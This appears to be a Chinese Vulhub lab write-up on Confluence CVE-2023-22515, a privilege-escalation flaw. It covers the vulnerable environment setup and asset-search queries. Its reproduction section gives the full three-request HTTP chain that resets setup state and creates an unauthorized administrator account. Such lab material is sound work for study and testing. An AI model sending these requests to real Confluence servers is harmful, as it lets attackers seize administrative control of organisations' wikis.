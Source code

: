 # Atlassian Confluence server-info.action 属性覆盖导致权限绕过漏洞 CVE-2023-22515

## 漏洞描述

Atlassian Confluence是企业广泛使用的wiki系统。

2023年10月4日，Atlassian官方发布了对于CVE-2023-22515漏洞的补丁。这个漏洞是由属性覆盖导致，利用 `/server-info.action` 端点传递 `bootstrapStatusProvider.applicationConfig.setupComplete` 参数，使服务器处于安装未完成状态，以访问受限制的端点并创建未经授权的 Confluence 管理员帐户，登录 Confluence 实例后台。

该漏洞不影响8.0.0以前的版本。

参考链接：

- https://confluence.atlassian.com/security/cve-2023-22515-privilege-escalation-vulnerability-in-confluence-data-center-and-server-1295682276.html
- https://attackerkb.com/topics/Q5f0ItSzw5/cve-2023-22515/rapid7-analysis

## 网络测绘

```
app="ATLASSIAN-Confluence"
title=="登录 - Confluence"
```

## 环境搭建

Vulhub 执行如下命令启动一个Confluence Server 8.5.1：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8090`即可进入安装向导，参考[CVE-2019-3396](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396)这个环境中的安装方法，申请试用版许可证。在填写数据库信息的页面，PostgreSQL数据库地址为`db`，数据库名称`confluence`，用户名密码均为`postgres`。

![image-20231018183534534](images/image-20231018183534534.png)

## 漏洞复现

首先，最主要的请求就是覆盖目标Confluence服务器中的`bootstrapStatusProvider.applicationConfig.setupComplete`属性：

```
GET /server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

然后，你就可以使用如下请求创建一个新的管理员账户`vulhub`：

```
POST /setup/setupadministrator.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 110
X-Atlassian-Token: no-check

username=vulhub&fullName=vulhub&email=admin%40vulhub.org&password=vulhub&confirm=vulhub&setup-next-button=Next
```

发送如下请求完成安装步骤：

```
POST /setup/finishsetup.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
X-Atlassian-Token: no-check
```

最后，直接使用新的`vulhub`账户（密码同样是`vulhub`）来登录Confluence，可见新的管理员已成功增加：

![image-20231018183608388](images/image-20231018183608388.png)
